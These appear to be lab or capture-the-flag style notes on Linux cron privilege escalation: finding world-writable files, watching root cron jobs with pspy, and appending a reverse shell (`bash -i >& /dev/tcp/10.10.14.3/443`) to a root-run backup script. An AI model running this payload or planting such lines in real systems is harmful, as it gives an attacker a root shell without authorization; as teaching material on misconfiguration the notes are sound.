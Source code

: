 ## Security Risks
- **Root crontab** usually only editable by root or sudoers.
- Misconfigurations can lead to **privilege escalation**:
- World-writable scripts executed by root.
- Cron files in `/etc/cron.d` editable by non-root users.
- Incorrect scheduling (e.g., running too frequently).

## Example Exploit Scenario
1. **Discovery**  
 - Found a suspicious script: `/dmz-backups/backup.sh`.
 - Script and directory were **world-writable**.
 - Backups created every 3 minutes → likely misconfigured (`*/3 * * * *` instead of `0 */3 * * *`).

 ```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
````
Find all regular files anywhere on the system (except /proc) that anyone can write to, and don’t show error messages.
```bash
ls -la /dmz-backups/
```

2. **Verification with pspy**
 pspy = Process Spy, a Linux tool often used in privilege escalation / red-team ops. It lets you see running processes and cron jobs on a system without root

   * `pspy64 -pf -i 1000` showed `/dmz-backups/backup.sh` being executed by **root** every 3 minutes. (command - Run pspy on a 64-bit system, and every 1 second, show me any new processes that start, including their full command line arguments) .

   ```
   CMD: UID=0    PID=2201   | /bin/bash /dmz-backups/backup.sh
   ```

4. **Original Script**

   ```bash
   #!/bin/bash
   SRCDIR="/var/www/html"
   DESTDIR="/dmz-backups/"
   FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
   tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
   ```

5. **Exploitation**

   * Append a reverse shell payload to the script.

   ```bash
   #!/bin/bash
   SRCDIR="/var/www/html"
   DESTDIR="/dmz-backups/"
   FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
   tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR

   bash -i >& /dev/tcp/10.10.14.3/443 0>&1
   ```
